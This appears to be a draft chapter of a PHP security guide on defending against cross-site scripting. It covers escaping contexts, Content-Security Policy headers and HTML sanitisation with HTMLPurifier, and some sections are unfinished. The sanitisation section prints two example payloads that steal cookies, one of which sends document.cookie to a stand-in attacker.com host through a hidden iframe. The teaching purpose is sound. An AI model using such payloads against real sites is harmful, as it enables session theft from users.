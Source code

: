 Defending Against Cross-Site Scripting Attacks
==============================================

Defending against XSS is quite possible but it needs to be applied consistently while being intolerant of exceptions and shortcuts, preferably early in the web application's development when the application's workflow is fresh in everyone's mind. Late implementation of defenses can be a costly affair.

Input Validation
----------------

Input Validation is any web application's first line of defense. That said, Input Validation is limited to knowing what the immediate usage of an untrusted input is and cannot predict where that input will finally be used when included in output. Practically all free text falls into this category since we always need to allow for valid uses of quotes, angular brackets and other characters.

Therefore, validation works best by preventing XSS attacks on data which has inherent value limits. An integer, for example, should never contain HTML special characters. An option, such as a country name, should match a list of allowed countries which likewise will prevent XSS payloads from being injected.

Input Validation can also check data with clear syntax constraints. For example, a valid URL should start with http:// or https:// but not the far more dangerous javascript: or data: schemes. In fact, all URLs derived from untrusted input must be validated for this very reason. Escaping a javascript: or data: URI has the same effect as escaping a valid URL, i.e. nothing whatsoever.

While Input Validation won't block all XSS payloads, it can help block the most obvious. We cover Input Validation in greater detail in Chapter 2.

Escaping (also Encoding)
------------------------

Escaping data on output is a method of ensuring that the data cannot be misinterpreted by the currently running parser or interpreter. The obvious examples are the less-than and greater-than sign that denote element tags in HTML. If we allowed these to be inserted by untrusted input as-is, it would allow an attacker to introduce new tags that the browser would render. As a result, we normally escape these using the &gt; and $lt; HTML named entities.

As the replacement of such special characters suggests, the intent is to preserve the meaning of the data being escaped. Escaping simply replaces characters with special meaning to the interpreter with an alternative which is usually based on a hexadecimal representation of the character or a more readable representation, such as HTML named entities, where it is safe to do so.

As my earlier diversion into explaining Context mentioned, the method of escaping varies depending on which Content data is being injected into. HTML escaping is different from Javascript escaping which is also different from URL escaping. Applying the wrong escaping strategy to a Context can result in an escaping failure, opening a hole in a web applications defenses which an attacker may be able to take advantage of.

To facilitate Context-specific escaping, it's recommended to use a class designed with this purpose in mind. PHP does not supply all the necessary escaping functionality out of the box and some of what it does offer is not as safe as popularly believed. You can find an Escaper class which I designed for the Zend Framework, which offers a more approachable solution, here.

Let's examine the escaping rules applicable to the most common Contexts: HTML Body, HTML Attribute, Javascript, URL and CSS.

Never Inject Data Except In Allowed Locations
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Before presenting escaping strategies, it's essential to ensure that your web application's templates do not misplace data. This rule refers to injecting data in sensitive areas of HTML which offer an attacker the opportunity to influence markup parsing and which do not ordinarily require escaping when used by a programmer. Consider the following examples where [...] is a data injection:

.. code-block:: html

     <script>...</script>
     
     <!--...-->
     
     <div ...="test"/>
     
     <... href="http://www.example.com"/>
     
     <style>...</style>

Each of the above locations are dangerous. Allowing data within script tags, outside of literal strings and numbers, would let an attack inject Javascript code. Data injected into HTML comments might be used to trigger Internet Explorer conditionals and other unanticipated results. The next two are more obvious as we would never want an attacker to be able to influence tag or attribute names - that's what we're trying to prevent! Finally, as with scripts, we can't allow attackers to inject directly into CSS as they may be able to perform UI Redress attacks and Javascript scripting using the Internet Explorer supported expression() function.

Always HTML Escape Before Injecting Data Into The HTML Body Context
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The HTML Body Context refers to textual content which is enclosed in tags, for example text included between <body>, <div>, or any other pairing of tags used to contain text. Data injected into this content must be HTML escaped.

HTML Escaping is well known in PHP since it's implemented by the htmlspecialchars() function.

Always HTML Attribute Escape Before Injecting Data Into The HTML Attribute Context
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The HTML Attribute Context refers to all values assigned to element attrbutes with the exception of attributes which are interpreted by the browser as CDATA. This exception is a little tricky but largely refers to non-XML HTML standards where Javascript can be included in event attributes unescaped. For all other attributes, however, you have the following two choices:

1. If the attribute value is quoted, you MAY use HTML Escaping; but
2. If the attribute is unquoted, you MUST use HTML Attribute Escaping.

The second option also applies where attribute quoting style may be in doubt. For example, it is perfectly valid in HTML5 to use unquoted attribute values and examples in the wild do exist. Ere on the side of caution where there is any doubt.

Always Javascript Escape Before Injecting Data Into Javascript Data Values
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Javascript data values are basically strings. Since you can't escape numbers, there is a sub-rule you can apply:

Always Validate Numbers...

Content-Security Policy
-----------------------

The root element in all our discussions about Cross-Site Scripting has been that the browser unquestionably executes all the Javascript it receives from the server whether it be inline or externally sourced. On receipt of a HTML document, the browser has no means of knowing which of the resources it contains are innocent and which are malicious. What if we could change that?
 
The Content-Security Policy (CSP) is a HTTP header which communicates a whitelist of trusted resource sources that the browser can trust. Any source not included in the whitelist can now be ignored by the browser since it's untrusted. Consider the following:
 
    X-Content-Security-Policy: script-src 'self'
 
This CSP header tells the browser to only trust Javascript source URLs pointing to the current domain. The browser will now grab scripts from this source but completely ignore all others. This means that http://attacker.com/naughty.js is not downloaded if injected by an attacker. It also means that all inline scripts, i.e. <script> tags, javascript: URIs or event attribute content are all ignored too since they are not in the whitelist.
 
If we need to use Javascript from another source besides 'self', we can extend the whitelist to include it. For example, let's include jQuery's CDN address.
 
    X-Content-Security-Policy: script-src 'self' http://code.jquery.com
 
You can add other resource directives, e.g. style-src for CSS, by dividing each resource directive and its whitelisting with a semi-colon.
 
    X-Content-Security-Policy: script-src 'self' http://code.jquery.com; style-src 'self'
 
The format of the header value is very simple. The value is constructed with a resource directive "script-src" followed by a space delimited list of sources to apply as a whitelist. The source can be a quoted keyword such as 'self' or a URL. The URL value is matched based on the information given. Information omitted in a URL can be freely altered in the HTML document. Therefore http://code.jquery.com prevents loading scripts from http://jquery.com or http://domainx.jquery.com because we were specific as to which subdomain to accept. If we wanted to allow all subdomains we could have specified just http://jquery.com. The same thinking applies to paths, ports, URL scheme, etc.
 
The nature of the CSP's whitelisting is simple. If you create a whitelist of a particular type of resource, anything not on that whitelist is ignored. If you do not define a whitelist for a resource type, then the browser's default behaviour kicks for that resource type.
 
Here's a list of the resource directives supported:
 
connect-src: Limits the sources to which you can connect using XMLHttpRequest, WebSockets, etc.
font-src: Limits the sources for web fonts.
frame-src: Limits the source URLs that can be embedded on a page as frames.
img-src: Limits the sources for images.
media-src: Limits the sources for video and audio.
object-src: Limits the sources for Flash and other plugins.
script-src: Limits the sources for script files.
style-src: Limits the sources for CSS files.
 
For maintaining secure defaults, there is also the special "default-src" directive that can be used to create a default whitelist for all of the above. For example:
 
    X-Content-Security-Policy: default-src 'self'; script-src 'self' http://code.jquery.com
 
The above will limit the source for all resources to the current domain but add an exception for script-src to allow the jQuery CDN. This instantly shuts down all avenues for untrusted injected resources and allows is to carefully open up the gates to only those sources we want the browser to trust.
 
Besides URLs, the allowed sources can use the following keywords which must be encased with single quotes:
 
'none'
'self'
'unsafe-inline'
'unsafe-eval'
 
You'll notice the usage of the term "unsafe". The best way of applying the CSP is to not duplicate an attacker's practices. Attackers want to inject inline Javascript and other resources. If we avoid such inline practices, our web applications can tell browsers to ignore all such inlined resources without exception. We can do this using external script files and Javascript's addEventListener() function instead of event attributes. Of course, what's a rule without a few useful exceptions, right? Seriously, eliminate any exceptions. Setting 'unsafe-inline' as a whitelisting source just goes against the whole point of using a CSP.
 
The 'none' keyword means just that. If set as a resource source it just tells the browser to ignore all resources of that type. Your mileage may vary but I'd suggest doing something like this so your CSP whitelist is always restricted to what it allows:
 
    X-Content-Security-Policy: default-src 'none'; script-src 'self' http://code.jquery.com; style-src 'self'
 
Just one final quirk to be aware of. Since the CSP is an emerging solution not yet out of draft, you'll need to dumplicate the X-Content-Security-Policy header to ensure it's also picked up by WebKit browsers like Safari and Chrome. I know, I know, that's WebKit for you.
 
    X-Content-Security-Policy: default-src 'none'; script-src 'self' http://code.jquery.com; style-src 'self'
    X-WebKit-CSP: default-src 'none'; script-src 'self' http://code.jquery.com; style-src 'self'

Browser Detection
-----------------

HTML Sanitisation
-----------------

At some point, a web application will encounter a need to include externally determined HTML markup directly into a web page without escaping it. Obvious examples can include forum posts, blog comments, editing forms, and entries from an RSS or Atom feed. If we were to escape the resulting HTML markup from those sources, they would never render correctly so we instead need to carefully filter it to make sure that any and all dangerous markup is neutralised.

You'll note that I used the phrase "externally determined" as opposed to externally generated. In place of accepting HTML markup, many web applications will allow users to instead use an alternative such as BBCode, Markdown, or Textile. A common fallacy in PHP is that these markup languages have a security function in preventing XSS. That is complete nonsense. The purpose of these languages is to allow users write formatted text more easily without dealing with HTML. Not all users are programmers and HTML is not exactly consistent or easy given its SGML roots. Writing long selections of formatted text in HTML is painful.

The act of generating HTML from such inputs (unless we received HTML to start with!) occurs on the server. That implies a trustworthy operation which is a common mistake to make. The HTML that results from such generators was still "determined" by an untrusted input. We can't assume it's safe. This is simply more obvious with a blog feed since its entries are already valid HTML.

Let's take the following BBCode snippet:

    [url=javascript:alert('I can haz Cookie?\n'+document.cookie)]Free Bitcoins Here![/url]

BBCode does limit the allowed HTML by design but it doesn't mandate, for example, using HTTP URLs and most generators won't notice this creeping through.

As another example, take the following selection of Markdown:

    I am a Markdown paragraph.<script>document.write('<iframe src="http://attacker.com?cookie=' + document.cookie.escape() + '" height=0 width=0 />');</script>

    There's no need to panic. I swear I am just plain text!

Markdown is a popular alternative to writing HTML but it also allows authors to mix HTML into Markdown. It's a perfectly valid Markdown feature and a Markdown renderer won't care whether there is an XSS payload included.

After driving home this point, the course of action needed is to HTML sanitise whatever we are going to include unescaped in web application output after all generation and other operations have been completed. No exceptions. It's untrusted input until we've sanitised it outselves.

HTML Sanitisation is a laborious process of parsing the input HTML and applying a whitelist of allowed elements, attributes and other values. It's not for the faint of heart, extremely easy to get wrong, and PHP suffers from a long line of insecure libraries which claim to do it properly. Do use a well established and reputable solution instead of writing one yourself.

The only library in PHP known to offer safe HTML Sanitisation is HTMLPurifier. It's actively maintained, heavily peer reviewed and I strongly recommend it. Using HTMLPurifier is relatively simple once you have some idea of the HTML markup to allow:

.. code-block:: php

    // Basic setup without a cache
    $config = HTMLPurifier_Config::createDefault();
    $config->set('Core', 'Encoding', 'UTF-8');
    $config->set('HTML', 'Doctype', 'HTML 4.01 Transitional');
    // Create the whitelist
    $config->set('HTML.Allowed', 'p,b,a[href],i'); // basic formatting and links
    $sanitiser = new HTMLPurifier($config);
    $output = $sanitiser->purify($untrustedHtml);

Do not use another HTML Sanitiser library unless you are absolutely certain about what you're doing.

External Application Defenses
-----------------------------

TBD